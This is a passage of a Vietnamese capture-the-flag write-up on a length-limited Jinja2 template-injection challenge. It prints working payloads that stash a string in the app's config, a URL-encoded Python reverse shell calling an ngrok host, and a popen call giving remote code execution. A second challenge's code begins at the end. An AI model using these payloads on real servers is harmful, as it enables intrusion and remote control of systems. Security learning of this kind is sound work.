 ```python
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

Ban đầu mình cũng cố gắng chắp vá payload bằng những cách thường dùng như dùng `attr|` `dict` nhưng độ dài là rất ít (<= 69).

Sau một hồi thì mình có tham khảo được trang [này](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Đại khái ý tưởng ở đây sẽ là chèn một chuỗi với độ dài tuỳ thích vào một biến nào đó trong file `config`, sau đó ta sẽ `popen` tới nó để sử dụng. Mình test thử nhé. Đầu tiên ta sẽ lưu chuỗi như ý muốn vào `config.a`

Ban đầu mình thử với payload sau nhưng không được

```
?txt={%set t=config.update(a=request.args('a')))%}&a=this is a test mtiennnnn
```

Mình không hiểu tại sao payload này lại không work :) (có ai biết chỉ mình với nha), sau đó mình cho hẳn cái `request.args` thành một biến khác thì lại work.

```python
{%set o=request.args%}{%set b=config.update(a=o.t)%}&t=this is a test mtiennnnn
```

Đọc thử `config.a` thì đã thấy chuỗi mình nhập

![image](https://user-images.githubusercontent.com/75429369/179645383-e56b8dfc-e37a-4b05-a2f1-d91fdebfe75f.png)

Vậy là đạt được mục đích rồi, giờ chỉ cần set up reverse shell nữa là xong

```python
{%set%20o=request.args%}{%set%20b=config.update(a=o.t)%}&t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28"0.tcp.ap.ngrok.io"%2C14474%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B"%2Fbin%2Fsh"%2C"-i"%5D%29%3B%27
```

Check lại `config.a` lần nữa cho chắc

![image](https://user-images.githubusercontent.com/75429369/179646144-de31d54a-441f-4893-baec-304beed007ee.png)

Oke popen nó là ta có thể rce được rồi

```python
{%set o=request.args%}{%set b=(lipsum|attr(o.t)).os.popen(config.a)%}&t=__globals__
```

![image](https://user-images.githubusercontent.com/75429369/179646491-6aa503cd-b5ea-49ab-b92c-572f3a32baab.png)

_Note: bài này mình cứ ghi thiếu ngoặc với thiếu kí tự gì đấy nên cứ 500 miết =))_

# 1337

Mình đã không giải ra bài này trong lúc diễn ra giải nhưng nhiều thứ mình đã học được và muốn chia sẻ.

```javascript
import mojo from "@mojojs/core";
import Path from "@mojojs/path";

const toLeet = {
```
